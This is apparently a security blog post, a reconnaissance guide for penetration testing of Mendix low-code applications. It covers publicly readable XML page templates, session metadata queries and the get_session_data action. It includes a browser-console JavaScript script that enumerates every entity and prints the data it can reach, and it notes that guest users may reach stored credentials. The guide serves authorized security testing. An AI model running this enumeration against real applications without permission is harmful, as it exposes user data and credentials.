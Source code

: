 ```yaml
---
title: Reconnaissance Guide for Mendix Applications 
date: 2025-10-28 00:00:00 +02:00
categories:
- Info Leakage
- recon
layout: post
excerpt: Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.
comments: true
thumbnail: japan.jpg
---
```




# Reconnaissance Guide for Mendix Applications 


## Introduction

Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.

## Mendix XML Template Files

These files serve as templates for various forms within Mendix applications, including login pages and file upload interfaces. They contain valuable reconnaissance information such as form fields and occasionally user role definitions. Notably, these XML files are publicly accessible, making them excellent targets for dictionary-based enumeration attacks to discover commonly named forms. You can access them at: `http://localhost:8080/pages/
	
![](/img/Pastedimage20251028165800.png)
![](/img/Pastedimage20251028165747.png)
	
 ## mx javscript library
```
// View session metadata. Entity
mx.session.sessionData.metadata 
// Check available microflows
mx.session.sessionData.microflows 
// Examine object types 
mx.session.sessionData.metadata[2]['objectType']
//Enumeation
mx.session.sessionData.enumerations
```
** List all accessible Entities 
```javascript
//list only object that has content
const objects = mx.session.sessionData.metadata
let obj=null
let objwithContent=[]
function getObject(obj) {
    //console.log(`Getting the content of the first object of ${obj}`);
    var innerobj=obj
    mx.data.get({
        xpath: `//${obj}`,
        callback: function(obj) {
            // Check here if obj is not empty
            if (obj.length != 0) {
                let attr = obj[0]['jsonData']['attributes'];
                console.log(`%cSample data of ${innerobj}:`, 'background-color: green')
                for (const key in attr) {
                    if (attr.hasOwnProperty(key)) {
                        console.log(` ${key}: ${attr[key]['value']}`);
                    }
                }
                objwithContent.push(obj)
            } else {
                console.log(`object ${obj} is empty`);
            }
        }
    }); 
}

//loop to every  object
for (const key in objects){ 
	console.log(objects[key]['objectType'])
	obj =objects[key]['objectType']
	//console.log(obj)
	getObject(obj)
	}

//list all accessible entities
objwithContent.forEach(function(element) {
  console.log(element[0].jsonData.objectType);
//console.log(element[0].jsonData);
});


```



![](/img/Pastedimage20251028172328.png)
![](/img/Pastedimage20251028172958.png)

**In certain cases, guest or anonymous users may gain access to the `System.user` entity, which holds sensitive credentials such as usernames and passwords.**


 ## get_session action
 
  you can also send an HTTP post request with `get_session_data` action
to get valuable information about the mendix app such as constants, data type, and fields. Fields and Data type are useful for other vulnerability such SQL injection   
![](/img/Pastedimage20251028163226.png)

**HTTP Response**


![](/img/Pastedimage20251028163607.png)

![](/img/Pastedimage20251028163641.png)

## widget

You can list all widgets on the https://app/widgets/.* Sometimes these widgets contain a JS library that is vulnerable to CVEs

  ![](/img/Pastedimage20251028162615.png)
  
  ![](/img/Pastedimage20251028162826.png)
